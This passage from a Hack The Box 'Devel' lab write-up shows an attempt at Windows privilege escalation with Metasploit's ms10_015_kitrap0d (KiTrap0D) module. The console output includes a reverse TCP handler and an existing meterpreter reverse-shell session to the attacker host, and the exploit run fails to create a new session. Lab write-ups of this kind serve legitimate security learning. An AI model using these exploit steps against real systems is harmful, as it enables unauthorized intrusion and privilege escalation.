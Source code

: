 Checking online on the `ms10_015` Kernel we found that this module will create a new session with SYSTEM privileges via the KiTrap0D exlpoit by Tavis Ormandy [MS10-015](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-015/README.md)

![Alt text](/assets/img/htb/devel/dev_012.png)

After setting all the options that are required, we run the explit but did not have a shell back

```yaml
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 192.168.64.6:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 3736 launched.
[*] Reflectively injecting the DLL into 3736...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  2         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.15:4444 -> 10.10.10.5:49170 (10.10.10.5)


```
